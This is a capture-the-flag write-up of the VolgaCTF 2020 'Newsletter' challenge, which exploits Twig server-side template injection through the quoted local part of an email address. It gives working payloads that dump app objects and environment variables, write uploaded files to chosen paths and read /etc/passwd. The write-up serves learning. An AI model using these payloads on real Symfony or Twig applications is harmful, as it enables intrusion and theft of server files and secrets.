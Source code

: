 # Newsletter [200]



We are presented with a email newsletter form along with the source code

```
  public function subscribe(Request $request, MailerInterface $mailer)
    {
        $msg = '';
        $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
        if($email !== FALSE) {
            $name = substr($email, 0, strpos($email, '@'));
            $content = $this->get('twig')->createTemplate(
                "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
            )->render();

            $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
            $mailer->send($mail);

            $msg = 'Success';
        } else {
            $msg = 'Invalid email';
            echo $msg;
        }
        return $this->render('main.twig', ['msg' => $msg]);
    }
```


You can straight up see it is vulnerable to **template injection**, the part before @ of the email is used in creating the template.

The user email passes through filter_var with FILTER_VALIDATE_EMAIL argument.
FILTER_VALIDATE_EMAIL uses `RFC 822` to check if an email is valid that means almost all characters are allowed if enclosed in quotes.

```
"(Injection here)"@vit.fail
```

*The only limitation was that the injected code could not be more than 64 chars(62 with the quotes)*

To further continue, I created a local enviornment with the given code to work in a debug php environment.

https://twig.symfony.com/doc/3.x/ 

Started of with `"{{dump(app)}}"` which gives out the complete var_dump of the objects we can work with.

![dump app](dump_app.png)

### To print all environment variables

`"{{app.request.server.all|join(',')}}"`

I could not find the flag here so I moved to finding either a code execution or file read/write.

The app.request object also contained a files property, so I did a multipart file upload and the file was there.
I could access it using `"{{app.request.files.get(key}}"`

Digging the twig source code, the file object was an instance of

`Symfony::Component::HttpFoundation::File::UploadedFile` with parent class `Symfony::Component::HttpFoundation::File::File`

There was nothing interesting in these classes except a move function which allowed me to move the file with target as an argument.
So now I had file write on the server

### File write

`"{{app.request.files.get(1).move(app.request.query.get(1))}}"`

with the target director in url query `?1=/tmp/x/`

But unfortunately I did not have write permissions to `/var/www/newsletter/public/` to upload a shell so I continued my search.

The class `Symfony::Component::HttpFoundation::File::File` extended the inbuilt php class `SplFileInfo` https://www.php.net/manual/en/class.splfileinfo.php

It only contained metadata except for a openFile method which would give us a  `SplFileObject` that contained methods to read and write the file.

So my plan was to call the constructor on SplFileInfo with the path of the file I want to read.

### File read

`"{{app.request.files.get(1).__construct('/etc/passwd','')}}"`

which would give us a SplFileInfo on /etc/passwd and then we could do

`"{{app.request.files.get(1).openFile.fread(99)}}"`

But now the 62 character limit became a bottleneck.

I went through the documentation again and found two possible paths that I could go through.

1. With the file write I have,upload a template file with the file read code and then `{% include %}` it 
This did not work as twig did not allow including template files outside of the template directory.

2. Do something like this `{{include(template_from_string(app.request.query.get(1)))}}`
which did not work as well as `template_from_string` is not enabled by default :/

At this  point I ultimately gave up and could not solve the challenge.

The solution was in easily visible in the documentation if I would have read carefully

`"{{'/etc/passwd'|file_excerpt(1,30)}}"`

:/



